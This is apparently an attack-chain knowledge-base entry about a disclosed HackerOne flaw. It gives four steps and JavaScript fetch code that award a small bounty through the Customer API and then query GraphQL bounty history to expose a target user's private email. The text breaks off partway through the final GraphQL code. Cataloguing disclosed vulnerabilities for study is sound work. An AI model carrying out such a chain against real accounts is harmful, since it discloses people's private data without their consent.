

---
tags:
  - information-disclosure
  - api-abuse
  - graphql
  - privacy-breach
  - hackerone
type: attack_chain
tools:
  - '[[tools/Node.js]]'
tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Setup-HackerOne-Sandbox-Program-and-API-Token]]'
  - '[[procedures/Obtain-Target-User-ID-on-HackerOne]]'
  - '[[procedures/Award-Bounty-to-Target-User-via-Customer-API]]'
  - '[[procedures/Disclose-User-Email-via-Bounties-History-GraphQL-Query]]'
step_count: 4
techniques:
  - '[[Valid Accounts]]'
  - '[[Account Discovery]]'
  - '[[Data from Information Repositories]]'
updated_at: '2025-12-14T17:32:48.320Z'
description: >-
  An authenticated user exploits improper access controls in HackerOne's
  Customer API and GraphQL endpoint to award a minimal bounty to a target user
  and query the program's bounties history, disclosing the target's private
  email address.
skill_level: intermediate
impact_level: high
id: 99b3ba55-ebaa-4565-8f78-a8ee58c42c19
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Discovery]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Valid Accounts]]'
  - '[[Account Discovery]]'
  - '[[Data from Information Repositories]]'
---
# HackerOne Private Email Disclosure via Bounty Creation API and GraphQL Query

Multi-stage attack chain demonstrating how an authenticated HackerOne user with a report manager API token can disclose any other user's private email address by creating a small bounty via the Customer API and querying the program's bounties history through GraphQL, bypassing access controls on sensitive user data.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Node.js]]

### Target Environment

- HackerOne platform (web-based)
- Required services: HackerOne Customer API and GraphQL API
- Network access: Internet connectivity to api.hackerone.com and hackerone.com

### Initial Access Requirements

- Authenticated HackerOne account with ability to create programs
- Report manager API token for the target program

## Detailed Attack Procedures

### Step 1: Setup Environment

procedure: [[procedures/Setup-HackerOne-Sandbox-Program-and-API-Token]]

**Objective**: Authenticate to HackerOne, create a sandbox program for testing, and generate a report manager API token to enable API interactions.

**Instructions**: Log in to your HackerOne account via the web interface. Create a new demo sandbox program, noting the program ID (e.g., {id}). Then, navigate to the organization's API tokens settings and generate a token with report manager permissions scoped to the sandbox program. Store the program identifier and token securely for authentication.

**Expected Output**: Sandbox program created with ID {id}, and API token generated.

**Success Indicators**:
- Program ID obtained
- API token with report manager role confirmed

### Step 2: Identify Target

procedure: [[procedures/Obtain-Target-User-ID-on-HackerOne]]

**Objective**: Locate and extract the user ID of the target HackerOne user whose email is to be disclosed.

**Instructions**: Visit the target user's profile page on HackerOne (e.g., https://hackerone.com/username). Inspect the page source or use browser developer tools to extract the user ID from the profile data or associated API calls.

**Expected Output**: Target user ID (e.g., ██████████) retrieved.

**Success Indicators**:
- Valid user ID for the target confirmed via profile access

### Step 3: Award Bounty

procedure: [[procedures/Award-Bounty-to-Target-User-via-Customer-API]]

**Objective**: Use the Customer API to award a minimal bounty (51 USD) to the target user, creating a record that links the target to the program for subsequent querying.

**Instructions**: Execute the bounty creation using [[commands/award-hackerone-bounty-with-javascript]] in a Node.js environment, replacing placeholders with your program ID, target user ID, identifier, and token.

```javascript
let inputBody = "{\n \"data\": {\n \"type\": \"bounty\",\n \"attributes\": {\n \"recipient_id\": \"██████████\",\n \"amount\": 51,\n \"reference\": \"newbounty\",\n \"title\": \"BOUNTY FROM Sandbox\",\n \"currency\": \"USD\",\n \"severity_rating\": \"high\"\n }\n }\n}";
let user = 'identifier';
let password = 'token';
let headers = new Headers();
headers.set('Authorization', 'Basic ' + btoa(user + ":" + password));
headers.set('Content-Type', 'application/json'); headers.set('Accept', 'application/json');

fetch('https://api.hackerone.com/v1/programs/{id}/bounties',
{
 method: 'POST',
 body: inputBody,
 headers: headers
})
.then(function(res) {
 return res.json();
}).then(function(body) {
 console.log(body);
});
```

**Expected Output**: JSON response confirming bounty creation success, e.g., {"data": {"id": "...", "type": "bounty"}}.

**Success Indicators**:
- HTTP 201 or success status
- Bounty ID returned in response

### Step 4: Query and Disclose

procedure: [[procedures/Disclose-User-Email-via-Bounties-History-GraphQL-Query]]

**Objective**: Query the program's bounties history via GraphQL to retrieve the awarded bounty details, exposing the target user's private email due to missing access controls.

**Instructions**: Run the GraphQL query using [[commands/query-hackerone-bounties-history-graphql-with-javascript]] in Node.js, updating the handle and adding authentication headers if required (e.g., Basic Auth similar to API).

```javascript
let queryBody = `{\n  \
